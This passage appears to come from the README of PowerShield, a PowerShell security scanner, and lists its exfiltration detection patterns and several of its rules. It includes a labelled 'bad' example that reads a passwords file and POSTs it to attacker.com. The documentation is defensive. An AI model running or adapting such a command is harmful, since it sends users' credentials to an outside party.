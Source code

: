 - DNS tunneling (DNS queries in loops)
- HTTP POST with large data
- Pastebin/GitHub Gist uploads
- Cloud storage uploads (Dropbox, S3, Azure Blob)
- Email with attachments
- Data compression before upload

**Example**:

```powershell
# ❌ Bad - Exfiltrates data to external site
$data = Get-Content "C:\Sensitive\passwords.txt"
Invoke-WebRequest -Uri "http://attacker.com/upload" -Method POST -Body $data

# ✅ Good - Use authorized data transfer methods
# Transfer data through approved channels with proper logging
```

For detailed examples of all rules, see the [test scripts](tests/TestScripts/) organized by category:

- [PowerShell-specific rules](tests/TestScripts/powershell/)
- [Network security rules](tests/TestScripts/network/)
- [File system security rules](tests/TestScripts/filesystem/)
- [Registry security rules](tests/TestScripts/registry/)
- [Data security rules](tests/TestScripts/data/)

## 📋 Complete Security Rules Catalogue

PowerShield includes **52 comprehensive security rules** organized into the following categories:

### Core Security Rules (4 rules)

1. **InsecureHashAlgorithms** (High)  
   Detects usage of cryptographically weak hash algorithms (MD5, SHA1, RIPEMD160)

2. **CredentialExposure** (Critical)  
   Detects potential credential exposure in scripts (plaintext passwords, insecure credential handling)

3. **CommandInjection** (Critical)  
   Detects potential command injection vulnerabilities (unsafe Invoke-Expression usage)

4. **CertificateValidation** (High)  
   Validates certificate security practices (certificate validation bypasses)

### PowerShell-Specific Security Rules (16 rules)

1. **ExecutionPolicyBypass** (Critical)  
   Detects attempts to bypass PowerShell execution policy

2. **ScriptBlockLogging** (High)  
   Detects disabling of security logging configuration

3. **UnsafePSRemoting** (Critical)  
   Detects insecure PowerShell remoting configurations
